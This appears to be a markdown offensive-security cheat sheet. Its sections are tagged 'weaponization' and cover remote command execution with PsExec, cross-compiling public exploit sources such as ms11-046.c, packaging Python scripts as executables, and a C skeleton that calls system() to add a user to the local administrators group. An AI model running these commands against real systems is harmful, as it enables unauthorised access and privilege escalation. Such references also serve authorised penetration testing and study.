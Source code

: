 ## run psexec
- `.\PsExec.exe -accepteula \\<remote_hostname> cmd`
- `PsExec64.exe \\remote_hostname> -u <username> -p <password> shell64.exe`

---

# gcc
- service: all
- tactics: weaponization

## cross compile for 32bit (m32) and all linux flavors (gnu, sysv)
- `apt-get install libc6-dev-i386`
- `gcc -m32 -Wall -Wl,--hash-style=both 9545.c -o exploit`

## cross compile for 32Bit windows (on 64bit linux)
- `i686-w64-mingw32-gcc -o ms11-046.exe ms11-046.c -lws2_32`

## cross compile for 32bit windows (on 32bit linux)
- `apt-get install mingw32`
- `i586-mingw32msvc-gcc <source>.c -o <outfile> -lws2_32`

## static application
> To compile static applications use the “-static” parameter additionally

## skelleton c code which calls system()

```
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```

---

# pyinstaller.py
- serivce: all
- tactics: weaponization

## generate exe from python file in windows
- `python pyinstaller.py --onefile <pythonscript>`

---